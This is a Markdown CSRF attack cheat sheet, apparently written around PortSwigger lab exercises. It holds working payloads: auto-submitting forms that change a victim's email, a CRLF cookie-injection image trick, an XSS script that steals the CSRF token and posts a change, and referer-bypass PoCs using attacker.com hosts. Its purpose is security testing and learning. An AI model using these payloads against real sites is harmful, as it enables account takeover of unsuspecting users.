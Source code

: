 # CSRF (Cross-Site Request Forgery) Attack Guide

---

## Index

1. [Testing CSRF Token](#testing-csrf-token)
2. [Testing CSRF Token and CSRF Cookies](#testing-csrf-token-and-csrf-cookies)
3. [Exploitation Techniques](#exploitation-techniques)
   - [HTML Exploit Example](#html-exploit-example)
   - [Image-based CSRF Cookie Injection](#image-based-csrf-cookie-injection)
5. [Testing the Referer Header for CSRF Attack](#testing-the-referer-header-for-csrf-attack)
   - [Exploit for Referer Header Validation (Case 1)](#exploit-for-referer-header-validation-case-1)
6. [Bypassing SameSite Lax Policy](#bypassing-samesite-lax-policy)

---

## Testing CSRF Token

When testing a CSRF token, follow these steps:

1. **Remove CSRF parameter/token**: Check if the application accepts requests without the token.
2. **Change request method (POST to GET)**: Test if changing the method affects token validation.
3. **Exchange CSRF token with another user**: Verify if tokens are user-specific by testing another user’s token.

---

## Testing CSRF Token and CSRF Cookies

**If CSRF cookie Not Tied With User Session Cookie**

1. **Submit an invalid CSRF token**: See if the application accepts it.
2. **Submit a valid CSRF token from another user**: Check if the token is user-specific. 
3. **Submit a valid CSRF token and CSRF cookie from another user**: Test if both token and cookie are required to match.
4. **Assign a random value to token + cookie**: In a duplicated token cookie, try setting the same random value to both.

**If CSRF cookie Tied With User Session Cookie**

[Portswigger Lab](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)

<br>

**Note:** You can collect csrf token by inspect element.

---

### Exploitation Techniques

To exploit a CSRF token + cookie mechanism, two actions are required:

1. **Inject a CSRF cookie into the user's session** (via HTTP header injection)
2. **Send a CSRF attack to the victim**

### HTML Exploit Example

```html
<form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
<script>
        document.forms[0].submit();
</script>
```

### Image-based CSRF Cookie Injection

```html
<form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
<img src="https://0a5000e9036c9fa3820d15c300a500d4.web-security-academy.net/?search=asdasfa%0d%0aSet-Cookie:%20csrf=testing;%20SameSite=None" onerror="document.forms[0].submit()">
```

### XSS Based CSRF Attack

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = handleResponse;
  req.open('get', '/my-account', true);
  req.send();

  function handleResponse() {
    // Extract the CSRF token from the response
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];

    // Display the token in a popup alert
    alert('Extracted CSRF Token: ' + token);

    // Send a POST request to change the email
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf=' + token + '&email=test@test.com');
  }
</script>
```

---

## Testing the Referer Header for CSRF Attack

1. **Remove the Referer header**: See if the application still processes the request without it.
2. **Validate which part of the Referer header is used**: Identify which part is validated by the application.

   - **Example 1**: `Referer: https://attacker.com/?vulnerable-web.net`
   - **Example 2**: `Referer: http://vulnerable-website.com.attacker-website.com/csrf-attack`

### Exploit for Referer Header Validation (Case 1)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<head>
<meta name="referrer" content="no-referrer">
</head>
  <body>
    <form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

## Bypassing SameSite Lax Policy

### **Table**

| Attribute         | Sent with Cross-Origin Requests? | Sent on Same-Site Requests? | Notes                                       |
|-------------------|----------------------------------|-----------------------------|---------------------------------------------|
| `Strict`          | No                              | Yes                         | Most secure, but may reduce usability.      |
| `Lax`             | Limited (e.g., navigation GET)  | Yes                         | Good balance between usability and security.|
| `None` (with `Secure`) | Yes                             | Yes                         | Necessary for third-party cookies.          |
| No Attribute      | Limited (assumed `Lax`)         | Yes                         | Default behavior in most modern browsers.   |

---

[Same site explanation](https://www.youtube.com/watch?v=aUF2QCEudPo&t=360s)

<br>

Key Note:
```plaintext
Set-Cookie: session=bciZoELY2ukJUUOj1zJ7wcAGdYXtvq3C; Secure; HttpOnly; SameSite=Strict
```

### Steps

1. **Change request method from POST to GET**: Test if SameSite policy can be bypassed with a GET request.
2. **Via cookie refresh**: Simulate a refresh to force SameSite cookie behavior.

--- 
